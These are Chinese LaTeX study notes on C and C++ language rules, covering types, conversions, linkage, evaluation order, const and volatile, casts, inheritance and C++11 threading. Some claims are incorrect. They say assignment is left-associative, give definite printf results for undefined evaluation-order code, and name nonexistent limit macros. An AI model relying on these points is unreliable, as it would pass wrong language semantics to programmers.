一个典型的32位PC上,long和int都是4字节,long long为8字节,float为4字节,double为8字节,long double为12字节,short为2字节,\verb$size_t,pid_t$为4字节。
32位无符号整数可表示的最大数字大于40亿,有符号整数能表示到20亿以上。

long long是C99新增的,C++标准委员会又将long long纳入C++11标准。
在C++11中,标准要求long long整型可以在不同平台上有不同的长度,但至少有64位。

limits.h头文件(C++中为<climits>)定义了int,long等类型能表示范围上下限,如
INT\_MAX, LONG\_MIN, SHORT\_MIN, USHRT\_MAX, LLONG\_MIN、LLONG\_MAX和ULLONG\_MIN。

stdint.h头文件定义了\verb$uint32_t$等类型的范围上下限,如INT8\_MAX,INT32\_MIN等。

\subsection{类型转换}

在一个表达式中,凡是可以使用整型的地方都可以使用带符号或无符号的字符、短整型或整型位字段,还可以使用枚举类型的对象。如果原始类型的所有值都可用int 类型表示, 则其值将被转换为int 类型;否则将被转换为unsigned int 类型。这一过程称为\textbf{整型提升(integral promotion)} 。

将任何整数转换为某种指定的无符号类型数的方法是:以该无符号类型能够表示的最大值加 1 为模,找出与此整数同余的最小的非负值。在对二的补码表示中,如果该无符号类型 的位模式较窄,这就相当于左截取;如果该无符号类型的位模式较宽,这就相当于对带符号 值进行符号扩展和对无符号值进行 0 填充。 将任何整数转换为带符号类型时,如果它可以在新类型中表示出来,则其值保持不变, 否则它的值同具体的实现有关。 

将一个精度较低的浮点值转换为相同或更高精度的浮点类型时,它的值保持不变。将一个较高精度的浮点类型值转换为较低精度的浮点类型时,如果它的值在可表示范围内,则结果可能是下一个较高或较低的可表示值。如果结果在可表示范围之外,则其行为是未定义的。 


许多运算符都会以类似的方式在运算过程中引起转换,并产生结果类型。其效果是将所有操作数转换为同一公共类型,并以此作为结果的类型。这种方式的转换称为普通算术类型转换。


类型转换顺序:
long double -> double -> float -> integral promotion -> ulong -> long,uint -> int

将浮点数赋值给整数,相当于取整。










%!Mode:: "TeX:UTF-8"


%################################################################
\section{C特殊语法}

\subsection{malloc}
free(NULL)与delete(0)是合法的,什么也不做。
malloc(0)会分配成功吗?答案是会的,它会返回一块最小内存给你。

\subsection{声明和定义}


\cite{krc}:

存储类分为两类:\textbf{自动存储类(auto,register)和静态存储类(static,extern)}。
在一个程序块(包括提供函数代码的程序块)内,静态对象用关键字 static 声明。在所有程序块外部声明且与函数定义在
同一级的对象总是静态的。可以通过 static 关键字将对象声明为某个特定翻译单元的局部对象,这种类型的对象将具有\textbf{内部连接}。
当省略显式的存储类或通过关键字 extern 进行声明时,对象对整个程序来说是全局可访问的,并且具有\textbf{外部连接}。

\textbf{外部声明}:在函数外部的声明。
如果一个对象或函数的第一个\textbf{外部声明}包含 static说明符,则该标识符具有\textbf{内部连接},否则具有\textbf{外部连接}。

声明与定义的关系:
如果一个对象的外部声明带有初值,则该声明就是一个定义。
如果一个外部对象声明不带有初值,并且不包含 extern 说明符,则它是一个\textbf{尝试性定义(tentative definition)}。
如果对象的定义出现在翻译单元中,则所有尝试性定义都将仅仪被认为是多余的声明;如果该翻译单元中不存在该对象的定义,则该尝试性定义将转变为一个初值为0的定义。

每个对象都必须有且仅有一个定义。对于具有内部连接的对象,该规则分别适用于每个翻译单元,这是因为,内部连接的对象对每个翻译单元是惟一的。
对于具有外部连接的对象,该规则适用于整个程序。


\subsection{运算顺序(赋值,逗号,参数)}
C语言运算符的优先级和结合性有明确的规定,但是,除少数例外情况外,表达式的求值次序没有定义。

赋值运算符有多个(=,-=,+=),它们都是从左到右结合。

关系运算符遵循从左到右的结合性,但这个规则没有什么实用价值。a<b<c 在语法分析时将被解释为(a<b)<c,并且 a<b 的结果值只能为0或1。
==的优先级低于<,因此a<b==c<d相当于(a<b)==(c<d)。

运算符+、-、*、/和\%遵循从左到右的结合性。

移位运算符<<和>>遵循从左到右的结合性。

逗号运算符,顺序为从左到右,并返回最右表达式的结果。

函数参数中各表达式的运算,顺序未定义,因此不建议重载逗号运算符,因为无法保证参数按照从左到右求值。

此外,运算符两侧的两个表达式的计算顺序是未定义的,如\verb|func1()*func2()|, \verb|if (a[i++]<b[i])|等。

C标准中未规定参数压栈顺序,但VC和gcc都规定从右往左压栈。如果参数中含有表达式,会从右到左计算完表达式的值,再从右到左压栈。
对于形如a++的后自增参数,在计算表达式时创建副本,未来将副本压栈,也相当于在计算表达式之前就将表达式本身压栈了。
而形如++a的前自增参数,是将a本身压栈,a的值为所有表达式都计算完成之后时刻的值。

例如,\verb|a=12|,

1.\verb|printf("%d, %d\n", ++a, ++a)|,

2.\verb|printf("%d, %d\n", ++a, a++)|,

3.\verb|printf("%d, %d\n", a++, ++a)|,

4.\verb|printf("%d, %d\n", --a, a++)|,

5.\verb|printf("%d, %d\n", a--, ++a)|的结果分别为:

\verb|14,14;14,12;13,14;12,12;13,12|。

++*p和*++p分别增加p的值和地址,++*++p则先增加地址再增加值。


\subsection{名字隐藏(屏蔽)}
\begin{lstlisting}[language=C++]
int a = 2;
int main() {
  int a = a;//self initialization
  int b = ::a;//global a
}
\end{lstlisting}

上述main函数中a是自赋值初始化,结果不确定,而b则指明了全局作用域中的a,结果是2。

名字隐藏也可发生在变量名和函数名之间。
\begin{lstlisting}[language=C++]
void init(); // the name init has global scope
void fcn()
{
	int init = 0;
	// init is local and hides global init
	init();
	// error: global init is hidden
}
\end{lstlisting}



\subsection{声明语句的解析}
声明语句分解的优先级规则为:
\begin{itemize}
    \item 从最左标识符开始读取
    \item 优先级从高到低依次是:
        \begin{itemize}
            \item 将多个部分组在一起的括号
            \item 表示函数的小括号(输出a function returning\dots)和表示数组的方括号(an array of \dots),两者至多出现一个
            \item 前缀的星号,输出pointer to \dots
        \end{itemize}
    \item const和volatile 如果在类型描述符之后(英文原文是next to,可能是相邻的意思,包括之前)则类型限定符被应用于(apply to)类型描述符,否则应用于恰在其左侧的星号。
\end{itemize}

\subsection{例子}
\begin{enumerate}
    \item \verb|char *const *(*next)();|表示``next is a pointer to a function returning a pointer to a const pointer-to-char''。
    \item \verb|int (*a[10])(int);|表示a是一个数组,数组每个元素都是都是指向函数的指针
    \item \verb|int a[5];|\&a为指向数组的指针,\&a+1指向数组最末元素之后的不可访问的位置。
\end{enumerate}

\subsection{restrict关键词}
由C99提出,用于指针声明,表示所指对象不会被其他别名指针所指,以提示编译器进行更加大胆的优化。C++标准不支持该关键词,gcc和Visual C++提出了自己的非标准解决方案。

\begin{lstlisting}[language=C]
void updatePtrs(size_t *ptrA, size_t *ptrB, size_t *val)
{
  *ptrA += *val;
  *ptrB += *val;
}
\end{lstlisting}

由于不知道val所指对象是否与ptrA或ptrB重合,因此,需要对该变量执行load操作两次。如果三个参数都有restrict修饰,可只对val加载一次。

\subsection{可变参数表}
头文件<stdarg.h>提供了遍历未知数目和类型的函数参数表的功能。


\begin{lstlisting}[language=C]
//假定函数 f 带有可变数目的实际参数, lastarg 是它的最后一个命名的形式参数。 那么,
//在函数 f 内声明一个类型为 va_list 的变量 ap,它将依次指向每个实际参数:
va_list ap;
//在访问任何未命名的参数前,必须用 va_start 宏初始化 ap 一次:
va_start(va_list ap, lastarg);
//此后,每次执行宏 va_arg 都将产生一个与下一个未命名的参数具有相同类型和数值的值,
//它同时还修改 ap,以使得下一次执行 va_arg 时返回下一个参数:
type va_arg(va_list ap, type);
//在所有的参数处理完毕之后,且在退出函数 f 之前,必须调用宏 va_end 一次,如下所示:
void va_end(va_list ap);
\end{lstlisting}

例如:
\begin{lstlisting}[language=C]

/* vprintf example */
#include <stdio.h>
#include <stdarg.h>

void WriteFormatted ( const char * format, ... )
{
  va_list args;
  va_start (args, format);
  vprintf (format, args);
  va_end (args);
}

int main ()
{
   WriteFormatted ("Call with %d variable argument.\n",1);
   WriteFormatted ("Call with %d variable %s.\n",2,"arguments");

   return 0;
}
\end{lstlisting}
























%!Mode:: "TeX:UTF-8"
\section{const,static与volatile}

\subsection{const用途}
\begin{itemize}
    \item 定义const常量
    \item 修饰函数参数和返回值
    \item 修饰函数体(C++ only),定义恒态函数,不改动成员变量,除非成员变量使用了mutable修饰符
\end{itemize}

logical constness举例:
\begin{lstlisting}[language=C++]
class CTextBlock {
public:
  ...
  std::size_t length() const;
private:
  char *pText;
  mutable std::size_t textLength;         // these data members may
  mutable bool lengthIsValid;             // always be modified, even in
};                                        // const member functions

std::size_t CTextBlock::length() const
{
  if (!lengthIsValid) {
    textLength = std::strlen(pText);      // now fine
    lengthIsValid = true;                 // also fine
  }

  return textLength;
}
\end{lstlisting}


\subsection{const在C与C++的区别}
\begin{itemize}
    \item C默认const是外部连接的,而C++则默认是内部连接的。C++不允许\verb|const int a;|这种写法,而C中相当于声明语句\verb|extern const int a;|
    \item C中const量总是占用内存,且全局可见,不能当作编译期间的常量(如定义数组长度)。因此C中const用途非常有限。
\end{itemize}

一般而言,定义引用(reference)须用相同类型的变量作初始化,但const引用则可以用一般右值进行初始化。
\begin{lstlisting}[language=C++]
    int i = 3;
    int &t = i;
    const int &r = i + 6;
\end{lstlisting}
这是因为一般的引用可看做一个地址,而const引用则可以创建一个占用内存的对象。

\subsection{用const构造类成员数组}
在类中可以用constexpr声明数组。用const代替constexpr也可以。
\begin{lstlisting}[language=C++]
static constexpr int period = 30;// period is a constant expression
double daily_tbl[period];
\end{lstlisting}

\subsection{static用途}
\begin{itemize}
    \item 静态全局变量/函数
    \item 静态局部变量
    \item 类成员变量/函数
\end{itemize}


static关键词只用于声明,不用于定义;static成员(变量或函数)用通过类名和对象均可访问,在派生类中亦可访问(public, protected)。
non-const static成员变量不能在类体中初始化,必须在外部定义时初始化;const static成员变量可在类体中初始化,当常量表达式使用,但仍需在外部定义。
static成员变量的类型可以是所属类的类型。

\subsection{volatile修饰符}
 volatile 关键字是一种类型修饰符,用它声明的类型变量表示可以被某些编译器未知的因素更改,比如:操作系统、硬件或者其它线程等。
 遇到这个关键字声明的变量,编译器应该对访问该变量的代码就不再进行优化,从而可以提供对特殊地址的稳定访问。
 当两个线程都要用到某一个变量且该变量的值会被改变时,应该用volatile声明。
 然而volatile在C/C++中的语义其实很模糊,有的编译器未必会理会这一提示。参考\ref{subsec:MemBarrier}。

\begin{lstlisting}[language=C++]
class MyThread : public Thread {
	public:
		virtual void run() {
			while (!_stopped) {
			  //do something
			}
	    }
		void stop() {
			 _stopped = true;
		}
	private:
		bool volatile _stopped;
 };

MyThread thread;
thread.run();
\end{lstlisting}

\url{https://www.kernel.org/doc/Documentation/volatile-considered-harmful.txt}认为volatile应该被栅栏操作替代。
volatile没有实际意义,只有降低性能的危害。如果有人认为volatile非用不可,很有可能意味着其代码有bug。




%!Mode:: "TeX:UTF-8"

\section{C++与C的区别}



\subsection{指针和引用}
没有null引用,引用不可重新赋值。

\subsection{struct和class}
不同的默认成员保护级别;不同的默认派生保护级别(class默认private继承);此外没有区别。

\subsection{type castsing与强制类型转换}
\verb|static_cast|等四种转型操作相对于C风格强制类型转换的优势:
1.容易辨识,不论是人工识别还是grep
2.各转型动作目标越窄化,编译器越可能诊断出错误的运用

\subsection{iostream相对于stdio}
1.类型安全;2.易扩展

类型安全代码指访问被授权可以访问的内存位置。例如,类型安全代码不能从其他对象的私有字段读取值。
它只从定义完善的允许方式访问类型才能读取。类型安全的代码具备定义良好的数据类型。

类型安全可以理解为归功于C++的封装与权限控制机制。

易扩展可以理解为归功于C++的重载、泛型等机制。

\subsection{宏调用与内联函数}
相比于内联函数,使用宏代码最大的缺点是容易出错,例如产生边际效应:
\begin{lstlisting}[language=C]
#define MAX(a, b) (a) > (b) ? (a) : (b) 
result = MAX(i, j) + 2;
\end{lstlisting}
这里加法优先级高于冒号,因此得不到预期结果,应该将整个宏定义括起来。
再比如\verb$result = MAX(i++, j); $也因为做不到\textbf{引用透明性}而易导致出错。

\begin{quotation}
表达式的引用透明性(Referential transparency,referential opacity)是指将表达式用其结果来替换,程序结果不变。
引用透明性是函数式编程(如Common Lisp, Haskell)的基础,只有做到了引用透明性,函数的结果才可被缓存。
用引用不透明来描述宏调用的缺陷不太合适, 除非理解为拿MAX(i++,j)和{MAX(i,j);i++}作比较。
\end{quotation}

此外,编译器不会对宏调用进行类型检查;宏定义也无法访问类中成员。

inline函数相对于普通函数的缺点包括:\\
可能造成代码体积膨胀,cache丢失;无法随程序库而升级,客户必须重编代码;调试器对inline束手无策。

\subsection{如何混编C和C++}
使用extern C防止Name Mangling;使用\verb$#ifdef __cplusplus$判断当前编译器。


%################################################################

\section{C++ 重要语法}


\subsection{引用与临时对象}
non-const引用形参只能对应non-const实参,且类型必须匹配。
const引用形参可以接受类型不匹配的变量和表达式,会导致生成临时对象。

返回引用与返回对象在正确性与效率上的区别:
\begin{enumerate}
  \item 对于多态对象,如果返回基类对象value,会导致对象切割(slicing),该对象不再具有多态行为
  \item 返回引用更高效
\end{enumerate}
但是,对于临时对象,不要返回引用。

C++的临时对象:
\begin{enumerate}
\item 函数调用时隐式类型转换时以求调用成功
\item 函数返回对象的时候
\end{enumerate}

返回值优化(Return value optimization,缩写为RVO)是C++的一项编译优化技术,取消了存放函数返回值的临时对象。这可能会省略两次复制构造函数,即使复制构造函数有副作用。
\begin{lstlisting}[language=C++]
#include <iostream>
 
struct C {
  C() {}
  C(const C&) { std::cout << "A copy was made.\n"; }
};
 
C f() {
  return C();
}
 
int main() {
  std::cout << "Hello World!\n";
  C obj = f();
} 
\end{lstlisting}
这段代码的输出因编译器而不同:可能会打印两遍"A copy was made",也可能只有一遍,或一遍都没有。

以下代码也是返回值优化的例子:
\begin{lstlisting}[language=C++]
#include <iostream>
using namespace std;

#define COUT(x) cout << #x << " = " << x << endl

struct Base1{
    int val;
    Base1(int x = 0): val(x) { cout << "val = " << val << ", "; COUT(__FUNCTION__); }
    ~Base1() { cout << "val = " << val << ", "; COUT(__FUNCTION__); }
};

Base1 genBase1(int x)
{   
    Base1 b(x);
    return b;
}

struct Base2{
    Base2() {COUT(__FUNCTION__);}
    ~Base2() {COUT(__FUNCTION__);}
};

struct Derived: public Base1, public Base2 {
    Derived() {COUT(__FUNCTION__);};
    ~Derived() {COUT(__FUNCTION__);};
};

int main(void) {
    Derived d;
    Base1 b2 = genBase1(1);
    b2 = genBase1(2);
    b2.val = 3;
    return 0;
}
\end{lstlisting}

在g++ 4.8.2输出:
\begin{verbatim}
val = 0, __FUNCTION__ = Base1
__FUNCTION__ = Base2
__FUNCTION__ = Derived
val = 1, __FUNCTION__ = Base1
val = 2, __FUNCTION__ = Base1
val = 2, __FUNCTION__ = ~Base1
val = 3, __FUNCTION__ = ~Base1
__FUNCTION__ = ~Derived
__FUNCTION__ = ~Base2
val = 0, __FUNCTION__ = ~Base1
\end{verbatim}
这里genBase1(1)这行并未产生任何临时对象,但genBase1(2)却产生了临时对象。
这个例子也说明了,在栈上d和b2的析构顺序按照构造顺序的反序执行。
                             

\subsection{C++类型转换}
C++的隐式类型转换:
\begin{enumerate}
\item 混合类型表达式运算时
\item 表达式和istream等标准库对象用作条件时会转为bool
\item 用表达式赋值或初始化某变量时
\item 单实参调用的non-explicit构造函数定义了一个隐式转换
\end{enumerate}

C++的显式类型转换:cast操作符转换和旧式强制类型转换。

C++有三种情况会调用复制构造函数:显式复制初始化,值参传递,值返回值传递。

何谓\textbf{类型转换构造函数}?只有单个参数的构造函数,且不是复制构造函数。
除了定义\textbf{到}类类型的转换之外,我们还可以定义\textbf{从}类类型的转换:
\textbf{转换函数}是一种特殊的类成员函数:operator type()形式。
转换函数必须是成员函数,不能指定返回类型,并且形参表必须为空。
使用转换函数时,被转换的类型不必与所需要的类型完全匹配。必要时可在类类型转换之后跟上标准转换以获得想要的类型,
转换链中类类型转换只能用一次。这里的标准转换我理解成内置类型转换。

\verb$static_cast$和C式强制类型转换都能自动完成多继承指针偏移,但前者在某些转换下不能通过编译,例如
\begin{itemize}
\item int和float互转是可以的,但int*和float*互转是不可以的(可通过void*间接转换),int和指针也不能互转。
\item 不相干的类指针如\verb$struct Dog{};$和\verb$struct Dog{};$其指针不能互转,只有有继承层次关系的指针才可以互转,保证编译期类型检查。
\end{itemize}
\verb$reinterpret_cast$是真正的bit拷贝,比C式强制类型转换还要原始,后者至少还能自动完成指针偏移。


将派生类指针转换为基类指针(upcasting),直接赋值即可(多继承时可能会发生偏移),非要使用\verb$static_cast$操作可以。
如果基类包含虚函数,可使用\verb$dynamic_cast$。

将基类指针转换为派生类指针(downcasting),不能直接赋值(编译错误),可以采用C式强制转换,或\verb$static_cast$,
不论对象实例是否为派生类转换都能成功(没有运行期类型检查),在多继承情况下转换结果可能会发生指针偏移。
如果基类包含虚函数,可使用\verb$dynamic_cast$,结果可能为0,如果非0则也可能发生偏移。



\subsection{重载,覆盖,隐藏}
\textbf{重载(overload)}:发生在同一类(作用域)中的同名异参函数构成重载关系,与是否virtual无关,\textbf{基类和派生类的同名函数不会发生重载},而且如果不是virtual函数的话,一般意味着错误。C++11 允许派生类虚函数使用override关键词,帮助查错。
重载的匹配原则:精确匹配>类型提升>标准转换>类类型转换。

\textbf{覆盖(override,重写)},派生类的virtual函数会重写基类的同签名virtual函数。条件:同签名(返回值不同导致编译错误,返回本类类型时除外)、virtual关键词(派生类可省略virtual)。


\textbf{隐藏(屏蔽)}:派生类和基类如果有同名函数,且不满足上述三个覆盖条件,则互相隐藏,即派生类指针(或引用)只能调用派生类函数,找不到基类函数(除非用域解析符号),而基类指针(或引用)则只能找到基类函数。例如,基类和派生类的同名virtual函数,如果不同参,也是隐藏关系而非重载。可以在派生类定义中使用using声明式来破解隐藏。

\subsection{多态}
多态包括编译器多态(模板多态,函数重载,运算符重载等),默认指运行时多态。
运行时多态表现为:指针或引用的upcasting,函数参数传递的upcasting(pass-by-value会导致slicing)。

绝不要在构造和析构函数中调用virtual函数:在派生类对象的基类部分构造期间,对象类型为基类。

\textbf{构造函数不可以是虚函数,析构函数可以是虚函数,包括纯虚函数}:
\begin{itemize}
    \item 从功能角度,构造函数的作用是提供初始化,在对象生命期只执行一次,不是对象的动态行为,也没有太大的必要成为虚函数
    \item 从使用角度,构造函数是在创建对象时自动调用的,要明确指定对象的类型,不可能通过父类的指针或者引用去调用
    \item 从实现上看,vbtl在构造函数调用后才建立,因而构造函数不可能成为虚函数
    \item 我们往往通过基类的指针来销毁对象,这时候如果析构函数不是虚函数,就不能正确识别对象类型从而不能正确调用析构函数
\end{itemize}

避免假定对象的内存布局:即使是单一对象,基类和派生类指针可能也不同。图\ref{fig:mi-vptr}给出了一种多重虚继承下的内存布局方式。

\begin{figure}[ht]
	\begin{center}
		
\includegraphics[keepaspectratio,width=0.2\paperwidth]{Pictures/mi-vptr.png}
	\caption{多重虚继承}
	\label{fig:mi-vptr}
	\end{center}
\end{figure}

就作用域而言,派生类作用域在基类作用域\textbf{之内}:查找名称时先查派生类。

一旦函数在基类中声明为虚函数,它就一直为虚函数,派生类无法改变该函数为虚函数这一事实。派生类重定义虚函数时,
可以使用 virtual 保留字,但不是必须这样做。

如果类的指针为空,用该指针可调用类的成员函数,编译不出错误。但如果成员函数为虚函数,或者访问了成员变量,会发生段错误。





\subsection{继承权限}


无论是公有继承还是私有继承,派生类对基类公/私有成员的访问权限\textbf{同用户代码完全一致},对\textbf{(本对象的)}基类保护成员的访问权限为真。

基类本身指定对自身成员的最小访问控制。派生类可以进一步\textbf{限制}(而非放松)对所继承的(private,protected)成员的访问:
\begin{itemize}
  \item 公有继承保留public,protected成员访问级别。struct默认公有继承。
  \item 保护继承将public,protected成员访问级别置为protected
  \item 私有继承将public,protected成员访问级别置为private。class默认private继承。
\end{itemize}
使用 private 或 protected 派生的类不继承基类的接口, 被称作通常被称为\textbf{实现继承(implemented-in-terms-of)}。
对于private继承,如果偶尔需要将个别基类成员置为public,可以在派生类定义式中使用\textbf{using语句声明一下该成员}就好。

派生类到基类转换的可访问性,取决于基类的public成员是否可访问。

组合的两个涵义分别是has-a和implemented-in-terms-of。对于implemented-in-terms-of,
优先选择组合而非私有继承,
除非当原始类(基类或被复合类)的protected成员和virtual函数被牵扯进来,
因为私有继承派生类可以冲定义virtual函数并访问protected成员,而复合对象却不可以。

友元关系不能被继承;构造、析构、拷贝构造、operator=不能被继承。



\subsection{new和delete}

调用new operator创建对象(\verb$new Widget;$)时,有两个函数被调用,一个是operator new,一个是对象的构造函数。
operator new至少接受一个整型参数,如果还接受一个指针参数,则被称作placement new。
placement new用于在已经分配好的原始内存上构建对象:\verb$new(buffer) Widget;$。


operator new无法满足分配需求时,不断调用new-handler,如果不存在new-handler会抛出\verb$bad_alloc$异常。老式的实现会返回null。

\subsection{对象构造控制}

C++可能为类自动创建\textbf{6种}函数:默认构造(\textbf{仅当别无构造函数时}),析构,赋值,拷贝构造,取址,const取址。
\textbf{这些函数只有它们真正被需要的时候才会被创建},作为public inline函数。

常用的构造控制技巧:
\begin{description}
\item[只允许单一实例]私有构造函数,返回static对象的公有接口
\item[禁止派生]私有构造函数,工厂接口。C++11 支持final关键词。
\item[禁止派生但允许栈上创建]如果不允许使用C++11 支持final关键词,那么令该类继承一个拥有私有构造/析构函数的基类,并将本类设置为基类的友元类。
\item[允许特定数量的对象]定义计数类模板,被计数类对其特化,并对其私有继承(参More Effective C++)。
计数类拥有static计数变量,为每个特化参数(被计数类型)计数,而不是为所有被计数类计总和
\item[只允许产生于Heap上]注意到Stack上的对象会自动调用构造和析构函数,可令类的析构函数为private,
再定义一个公有的伪析构函数(函数名任选)供知情的用户调用,伪析构函数调用“delete this;”操作完成真正的析构。
如果需要支持继承,可将析构函数定义为protected。如果需要支持composition,则容器类只能包含这个类的指针,而不是这个类的对象。
\item[不允许产生于Heap上]将operator new/delete置为私有,或置为=delete(C++11)
\item[判断对象是否在Heap上]做不到。但是可以在每次在堆上构造对象时进行簿记
\end{description}


                            



























%!Mode:: "TeX:UTF-8"
\section{C++多线程}

\subsection{C++多线程一致性模型}

对多线程程序来说,最直观,最容易被理解的执行方式就是\textbf{顺序一致性(Sequential Consistency)}模型:
\begin{enumerate}
\item 从单个线程的角度来看,每个线程内部的指令都是按照程序规定的顺序(program order)来执行的;
\item 从整个多线程程序的角度来看,整个多线程程序的执行顺序是按照某种交错顺序来执行的,且是全局一致的
\end{enumerate}

尽管顺序一致性模型非常易于理解,但是它却对CPU和编译器的性能优化做出了很大的限制,所以常见的多核CPU和编译器大都没有实现顺序一致性模型。
乱序优化是串行时代非常普遍的,因为它对单线程程序的语义是没有影响的。
但是在进入多核时代后,编译器缺少语言级的内存模型的约束,导致其可能做出违法顺序一致性规定的多线程语义的错误优化。

因为现有的多核CPU和编译器都没有遵守顺序一致模型,
而且C/C++的旧有标准中都没有把多线程考虑在内,所以给编写多线程程序带来了一些问题。
例如,为了正确地用C++实现Double-Checked Locking,我们需要使用非常底层的内存栅栏(Memory Barrier)指令来显式地规定代码的内存顺序性(memory ordering)。
然而,这种方案依赖于具体的硬件,因此可移植性很差;而且它过于底层,不方便使用。

为了更容易的进行多线程编程,程序员希望程序能按照顺序一致性模型执行;但是顺序一致性对性能的损失太大了,CPU和编译器为了提高性能就必须要做优化。
为了在易编程性和性能间取得一个平衡,一个新的模型出炉了:sequential consistency for data race free programs,
它就是C++1x标准中多线程内存模型的基础。对C++程序员来说,随着C++1x标准的到来,我们终于可以依赖高级语言内建的多线程内存模型来编写正确的、高性能的多线程程序。

该模型的核心思想就是由程序员用同步原语(例如锁或者C++1x中新引入的atomic类型的共享变量)来保证你程序是没有数据竞跑的,这样CPU和编译器就会保证程序是按程序员所想的那样执行的(即顺序一致性)。换句话说,程序员只需要恰当地使用具有同步语义的指令来标记那些真正需要同步的变量和操作,就相当于告诉CPU和编译器不要对这些标记好的同步操作和变量做违反顺序一致性的优化,而其它未被标记的地方可以做原有的优化。编译器和CPU的大部分优化手段都可以继续实施,只是在同步原语处需要对优化做出相应的限制;而且程序员只需要保证正确地使用同步原语即可,因为它们最终表现出来的执行效果与顺序一致性模型一致。由此,C++多线程内存模型帮助我们在易编程性和性能之间取得了一个平衡。


在C++1x标准之前,C++是在建立在单线程语义上的。为了进行多线程编程,C++程序员通过使用诸如Pthreads,Windows Thread等C++语言标准之外的线程库来完成代码设计。
以线程库的形式进行多线程编程在绝大多数应用场景下都是没有问题的。然而,线程库的解决方案也有其先天缺陷。第一,如果没有在编程语言中定义内存模型的话,我们就不能清楚的定义到底什么样的编译器/CPU优化是合法的,而程序员也不能确定程序到底会怎么样被优化执行。例如,Pthreads标准中并未对什么是数据竞跑(Data Race)做出精确定义,因此C++编译器可能会进行一些错误优化从而导致数据竞跑。第二,绝大多数情况下线程库能正确的完成任务,而在极少数对性能有更高要求的情况下(尤其是需要利用底层的硬件特性来实现高性能Lock Free算法时)需要更精确的内存模型以规定好程序的行为。简而言之,把内存模型集成到编程语言中去是比线程库更好的选择。

C++作为一种高性能的系统语言,其设计目标之一就在于提供足够底层的操作,以满足对高性能的需求。在这个前提之下,C++1x除了提供传统的锁、条件变量等同步机制之外,还引入了新的atomic类型。相对于传统的mutex锁来说,atomic类型更底层,具备更好的性能,因此能用于实现诸如Lock Free等高性能并行算法。有了atomic类型,C++程序员就不需要像原来一样使用汇编代码来实现高性能的多线程程序了。而且,把atomic类型集成到C++语言中之后,程序员就可以更容易地实现可移植的多线程程序,而不用再依赖那些平台相关的汇编语句或者线程库。

\begin{lstlisting}[language=C++]

#include <atomic>
#include <vector>
#include <iostream>
#include <thread>  

std::vector<int> data;
std::atomic_bool data_ready(false);

void writer_thread()
{
    data.push_back(10); // 对data的写操作
    data_ready = true; // 对data_ready的写操作
}

void reader_thread()
{
    while(!data_ready.load()) 
    {   
        std::this_thread::yield();
    }   
    std::cout << "data is " << data[0] << "\n";
}

int main(void)
{

    return 0;
}                                    

\end{lstlisting}

对常见的数据类型,C++1x都提供了与之相对应的atomic类型。以bool类型举例,与之相对应的atomic\_bool类型具备两个新属性:原子性与顺序性。顾名思义,原子性的意思是说\verb$atomic_bool$的操作都是不可分割的,原子的;而顺序性则指定了对该变量的操作何时对其他线程可见。在C++1x中,为了满足对性能的追求,atomic类型提供了三种顺序属性:sequential consistency ordering(即顺序一致性),acquire release ordering以及relaxed ordering。因为sequential consistency是最易理解的模型,所以默认情况下所有atomic类型的操作都会使sequential consistency顺序。当然,顺序一致性的性能相对来说比较差,所以程序员还可以使用对顺序性要求稍弱一些的acquire release ordering与最弱的relaxed ordering。


\subsection{C++多线程语法}


std::lock\_guard只允许RAII方式的使用,而std::unique\_lock可以在构造之后调用lock/unlock, 更加灵活一些,但使用的时候出错的机率也更大一些,所以如果没有什么特殊的需求,通常推荐尽量使用std::lock\_guard.

<future> 头文件中包含了以下几个类和函数:
\begin{itemize}
\item Providers 类:std::promise, std::package\_task
\item Futures 类:std::future, shared\_future.
\item Providers 函数:std::async()
\item 其他类型:std::future\_error, std::future\_errc, std::future\_status, std::launch.
\end{itemize}

std::future 可以用来获取异步任务的结果,因此可以把它当成一种简单的线程间同步的手段。std::future 通常由某个 Provider 创建,你可以把 Provider 想象成一个异步任务的提供者,Provider 在某个线程中设置共享状态的值,与该共享状态相关联的 std::future 对象调用 get(通常在另外一个线程中) 获取该值,如果共享状态的标志不为 ready,则调用 std::future::get 会阻塞当前的调用者,直到 Provider 设置了共享状态的值(此时共享状态的标志变为 ready),std::future::get 返回异步任务的值或异常(如果发生了异常)。

一个有效(valid)的 std::future 对象通常由以下三种 Provider 创建,并和某个共享状态相关联。Provider 可以是函数或者类,分别是:
\begin{itemize}
\item std::async() 函数
\item std::promise::get\_future
\item std::packaged\_task::get\_future
\end{itemize}
std::shared\_future 与 std::future 类似,但是 std::shared\_future 可以拷贝、多个 std::shared\_future 可以共享某个共享状态的最终结果。

promise 对象可以保存某一类型 T 的值,该值可被 future 对象读取(可能在另外一个线程中),因此 promise 也提供了一种线程同步的手段。
std::packaged\_task 包装一个可调用的对象,并且允许异步获取该可调用对象产生的结果,从包装可调用对象意义上来讲,std::packaged\_task 与 std::function 类似,只不过 std::packaged\_task 将其包装的可调用对象的执行结果传递给一个 std::future 对象。

C++11 标准中规定了两大类原子对象,std::atomic\_flag 和 std::atomic,前者 std::atomic\_flag 一种最简单的原子布尔类型,只支持两种操作,test-and-set 和 clear。而 std::atomic 是模板类,一个模板类型为 T 的原子对象中封装了一个类型为 T 的值,并且C++11 标准中除了定义基本 std::atomic 模板类型外,还提供了针对整形(integral)和指针类型的特化实现,提供了大量的 API,极大地方便了开发者使用。









%!Mode:: "TeX:UTF-8"
\section{C++ 2011}

\url{http://developer.51cto.com/art/201112/305880.htm}

C++11是曾经被叫做C++0x,是对目前C++语言的扩展和修正,C++11不仅包含核心语言的新机能,而且扩展了C++的标准程序库(STL),并入了大部分的C++ Technical Report 1(TR1)程序库(数学的特殊函数除外)。

C++之前的标准有C++98和C++03,二者差别很小。C++14旨在作为C++11的一个小扩展,主要提供漏洞修复和小的改进。
例如,在C++11中,lambda函数的形式参数需要被声明为具体的类型。C++14放宽了这一要求,允许lambda函数的形式参数声明中使用类型说明符auto。

C++11包括大量的新特性:它现在支持Lambda表达式,对象类型自动推断,统一的初始化语法,委托构造函数,deleted和defaulted函数声明,nullptr,以及最重要的右值引用。


\subsection{自动类型推导}
\begin{lstlisting}[language=C++]
auto a; // 错误,auto是通过初始化表达式进行类型推导,如果没有初始化表达式,就无法确定a的类型  
auto d = 1.0;  
auto str = "Hello World";  
auto ch = 'A';  
auto func = less<int>();  
vector<int> iv;  
auto ite = iv.begin();  
auto p = new foo() // 对自定义类型进行类型推导 
\end{lstlisting}

